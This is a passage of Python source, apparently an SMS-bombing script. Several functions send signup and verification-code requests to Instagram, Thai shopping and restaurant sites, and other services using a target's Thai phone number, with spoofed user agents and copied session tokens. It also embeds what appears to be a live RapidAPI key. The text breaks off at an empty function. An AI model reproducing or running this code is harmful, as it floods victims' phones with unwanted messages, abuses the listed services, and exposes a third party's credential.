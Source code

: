 

def instagram(phone):

    token,cid=ig_token()

    d=post("https://www.instagram.com/accounts/send_signup_sms_code_ajax/",data=f"client_id={cid}&phone_number=66{phone}&phone_id=&big_blue_token=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()





def Rapid(phone):

    d=post('https://rapidapi.com/blaazetech/api/spam-caller-check/',json={"phonenumber":phone,"language":"th"},headers=header).status_code





def VBC(phone):

    post('https://twitter-user-profile-data.p.rapidapi.com/v1/api/twitter',headers = {'content-type': "application/json",'x-rapidapi-host': "twitter-user-profile-data.p.rapidapi.com",'x-rapidapi-key': "775b9796aemshb6a4eefc8d0e33cp1d04d7jsnefd368e22b03"})





def api1(phone):

    post("https://m.thisshop.com/cos/send/code/notice", json={"sessionContext":{"channel":"h5","entityCode":0,"userReferenceNumber":"12w12y11r52gz259ue14rr7g7370239m","localDateTimeText":"20220115182850","riskMessage":"{}","serviceCode":"FLEX0001","superUserId":"sysadmin","tokenKey":"149d5c7bae10304c8aba0da2bbc59cb7","authorizationReason":"","transactionBranch":"TFT_ORG_0000","userId":"","locale":"th-TH"},"noticeType":1,"businessType":"RT0001","phoneNumber":f"66-{phone}"},headers={"content-type": "application/json; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})



def api2(phone):

    headers = {

        "content-type": "application/x-www-form-urlencoded",

        "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",

        "referer": "https://www.wongnai.com/guest2?_f=signUp&guest_signup_type=phone",

        "cookie": "_gcl_au=1.1.1123274548.1637746846"

        }

    post("https://www.wongnai.com/_api/guest.json?_v=6.054&locale=th&_a=phoneLogIn",headers=headers,data=f"phoneno={phone}&retrycount=0")

    

def api3(phone):
